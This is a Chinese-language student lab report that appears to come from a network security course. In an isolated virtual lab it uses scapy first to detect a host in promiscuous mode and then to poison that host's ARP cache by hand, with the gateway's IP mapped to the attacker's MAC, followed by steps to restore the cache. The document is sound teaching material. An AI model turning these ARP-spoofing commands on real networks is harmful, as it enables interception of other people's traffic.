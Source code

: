 # 网络监听

## 实验目的

动手进行网络监听的相关实验

## 实验环境

### 网络拓扑图

```
- kali-victim [172.16.111.117] [08:00:27:d6:f5:93]
- debian-gateway [172.16.111.1] [08:00:27:b5:08:bc]
- kali-attacker [172.16.111.133][08:00:27:36:b5:e8]
```
![net_structure](img/net_struction.png)

### 各主机网络配置

- 受害者主机

![victim](img/victim_net.png)

- 网关主机

![gateway](img/gateway_net.png)

- 攻击者主机

![attacker](img/attacker_net.png)

### 攻击者主机`scapy`安装

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![scapy_install](img/scapy_install.png)

## 实验内容

### 实验1 检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 注意上述输出结果里应该没有出现 PROMISC 字符
```

![eth0](img/victim_show_eth0.png)

```
# 在攻击者主机上开启scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```

![attacker_send](img/attacker_send_1.png)

```
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![victim_get](img/vicitm_get_1.png)

```
#再回到攻击者主机执行promiscping 命令
pkt = promiscping("172.16.111.117")
```
![attacker_send](img/attacker_send_2.png)

可以看出在混杂模式下，受害者主机收到了这个数据包。

我们再打开受害者主机的`wireshark`对`eth0`端口进行抓包,可以发现其收到了`promiscping` 命令发送的 `ARP`数据包。

![wireshark](img/wireshark_check.png)

通过对比是否开启网卡的混杂模式的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，**普通模式**下进行发送将不会成功。
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验2 手工单步“毒化”目标主机ARP缓存

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

```

![ARP请求](img/scapy_get_mac.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![gw_mac](img/gw_mac.png)

```
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:36:b5:e8")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![arp_send](img/arp_send_1.png)

```
#此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
ip neigh
```

![mac_address](img/mac_address.png)

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b5:08:bc", pdst="172.16.111.117", hwdst="08:00:27:d6:f5:93")
sendp(restorepkt1, count=100, inter=0.2)
```
![arp_send](img/arp_send_2.png)

```
此时在受害者主机上准备“刷新”网关 ARP 记录。
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![victim_ping](img/victim_ping_gateway.png)

![arp_recovery](img/arp_recovery.png)

## 实验反思

1.`kali`不同于`windows`,其预装了抓包工具`wireshark`，我们在`attacker`发送`ARP`包之前打开此工具并选择对应端口（网卡）即可。
![wireshark](img/kali_wireshark.png)

2.查阅资料得知，`promiscping` 命令会发送 `ARP who-has` 请求。

- 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证`MAC`地址。
- 普通模式 网卡只接收发给本机的包。

可以看出在混杂模式下，受害者主机才能收到这个数据包。

## 参考链接

[`kali`的基本工具之一--`wireshark`](https://www.jianshu.com/p/91e0f8bea7f7)

[`Scapy`中的`ARP`](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)